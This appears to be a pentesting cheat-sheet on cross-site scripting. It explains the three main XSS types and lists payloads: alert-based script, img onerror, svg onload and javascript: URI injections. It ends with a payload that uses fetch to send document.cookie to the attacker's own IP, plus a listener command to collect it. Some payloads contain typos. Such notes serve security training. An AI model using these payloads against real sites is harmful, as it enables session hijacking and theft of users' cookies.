 Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious code, usually in the form of scripts, into a web page or application, which is then executed by unsuspecting users who visit that page. The injected code can steal sensitive data, manipulate web content, or perform actions on behalf of the user without their consent.

There are three main types of XSS attacks:

1. **Stored XSS:** The malicious code is permanently stored on a server and is served to multiple users when they access a specific page or resource. This type of XSS can have a long-lasting impact as it affects all subsequent visitors to the compromised page.
    
2. **Reflected XSS:** In this case, the injected code is reflected off a web server and immediately executed in response to a user's request. Typically, the attacker tricks the user into clicking on a malicious link containing the payload.
    
3. **DOM-based XSS:** This type of XSS occurs when the client-side script in a web page manipulates the Document Object Model (DOM) without proper sanitization or validation, allowing an attacker to execute malicious code on the client-side.
# Basic script
```bash
<script>alert("hi")</script>
```

# Image script
With this type of script we are trying to upload an image, but providing a wrong source. We generate this error on purpose to execute the *onerror* javascript function that prints hi in a pop-upp suing alert.
```bash
<img src='x' onerror=alert("hi") />
```

Also, we can use the onclick javascript's function. If we upload an image with a valid source when we click the image it will spawn the pop-up with the alert message.
```bash
<img src"<valid url>" onclick=alert("hi") />
```

# SVG script
When this code is injected into a web page, the SVG image will be loaded, and as soon as it's loaded, the `onload` event will fire, executing the JavaScript code and displaying the "1" in a pop-up alert box. It uses an SVG (Scalable Vector Graphics) element to trigger the JavaScript alert.

```bash
<svg onload=alert(1)>
```

- Example:
If we are attacking a web where whatever you insert will be assigned to the variable query, this option of XSS could be useful.
```bash
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

QUERY="><svg onload=alert(1)>
```

# DOM XSS using an anchor in jQuery
```bash
javascript:alert(document.cookie)
```
The code executes on the client side, within the user's browser. It doesn't rely on the server processing user input or delivering malicious content in the server response. Instead, it relies on manipulating the Document Object Model (DOM) of the current web page.

If an attacker can inject this code into a web page by manipulating user-generated content (e.g., through input fields or URLs), the injected code will execute within the user's browser. For example, an attacker might craft a URL like `https://example.com/?input=javascript:alert(document.cookie)` and trick a user into clicking it.

# Obtaining Cookie
If we can introduce XSS code into a petition that will be processed by the administration server, we can try to obtain it's cookie by running the following code: 
```bash
<img src'x' onerror=fetch('http://<own-ip>/+document.cookie);>
```
With this petition we induce the victim server to execute JS code. With this code the server tries to execute  a wrong image and on the error sends it's cookie to our machine. Before executing this payload is necessary to open a local port.
```bash
pyton3 -m http.server 80
```